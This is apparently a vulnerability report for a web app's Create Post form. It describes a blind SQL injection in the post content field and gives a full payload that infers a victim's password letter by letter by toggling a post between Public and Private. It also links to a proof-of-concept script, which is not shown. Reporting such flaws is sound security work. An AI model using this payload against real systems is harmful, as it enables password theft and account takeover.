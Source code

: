 # Vulnerability 11: SQL Injection allows to infer any database value

- Vulnerability: SQL Injection (Blind)
- Where: `content` in Create Post form
- Impact: Allows attacker to infer any value from the database

## Steps to reproduce

1. Create a post visible to 'Friends' with the following content:

```
Post Content', (
 SELECT "Public" FROM Users
 WHERE (
     username = '<victim>'
     AND substr(password, 1, <l>) = '<attempt>'
 )
 UNION
 SELECT "Private" FROM Users
 WHERE NOT (
     username = '<victim>'
     AND substr(password, 1, <l>) = '<attempt>'
 )
 LIMIT 1
 ))#
 ```

 2. The post will be Public if the <victim>'s password contains `attempt` in the first `l` letters and Private otherwise.

[(POC)](create_post_1.py)
